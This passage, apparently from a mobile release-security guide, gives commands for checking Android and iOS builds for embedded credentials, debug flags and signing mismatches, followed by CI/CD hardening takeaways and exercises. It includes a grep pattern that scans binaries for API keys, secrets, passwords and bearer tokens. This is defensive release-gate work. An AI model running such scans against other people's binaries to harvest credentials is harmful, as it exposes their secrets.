# What actually shipped? Build a universal APK for content checks only.
bundletool build-apks --bundle=app-release.aab --output=app.apks --mode=universal
unzip -p app.apks universal.apk > app-release.apk
# Search every DEX file, not only classes.dex.
unzip -o -q app-release.apk 'classes*.dex' -d build/apk-dex
strings build/apk-dex/classes*.dex | grep -iE "api[_-]?key|secret|password|bearer"
aapt2 dump badging app-release.apk | grep -E "^package:|application-debuggable"
```

If you ship an APK directly (outside Play), run `apksigner verify --verbose --print-certs` on that APK instead of `keytool`.

**Pass:** no credentials in the output, no `application-debuggable` line, and a SHA-256 on the `.aab`'s signer certificate that matches the **upload** certificate Play Console shows (**Protected with Play → Play Store distribution → Go to Play app signing**). **Fail on any of the three** is a release-blocking finding, not a backlog item.

For iOS, on the built `.app` (or the app inside an `.xcarchive`):

```bash
strings MyApp.app/MyApp | grep -iE "api[_-]?key|secret|internal"
codesign --verify --deep --strict --verbose=2 MyApp.app
codesign -d --entitlements - MyApp.app | grep -A1 "get-task-allow"
```

**Pass:** no credentials; `codesign` reports the app valid and satisfying its designated requirement; and `get-task-allow`, which lets a debugger attach, is absent or `false` in a distribution build.

Then confirm logging is gone by running the release build and watching `adb logcat` or Console during a login flow. A build flag that says logging is disabled is not evidence; an empty log is.

Put all of this in a release-gate job (§15.7). A check that runs when someone remembers is not a control.

**Key takeaways**

- Your pipeline can ship code under your signature. Give workflow files the review and least privilege you give production.
- Pin actions to commit SHAs (written by a tool, not by hand), deny token permissions by default, and never interpolate untrusted input into `run:`.
- `pull_request_target` and shared caches are where recent attacks crossed from untrusted to trusted. Keep them apart.
- Provenance proves which process built an artefact, not that its inputs were clean.
- Use Play App Signing and App Store Connect team keys with minimum roles, gate production behind a human approval, and verify the artefact rather than the configuration.

**Try it**

1. Run `zizmor .github/workflows/` and `actionlint` on your repository. Fix every high-severity finding, starting with unpinned actions and template injection.
2. Open *Settings → Actions → General* for your repository and organisation. Check the default `GITHUB_TOKEN` permission, whether SHA pinning is required, and whether fork pull requests need approval before workflows run. Write down what you changed.
3. Build your release artefact locally and run the Verify it commands above. Compare the `.aab`'s signer digest with the upload certificate Play Console shows, or, for iOS, with your distribution certificate.

---
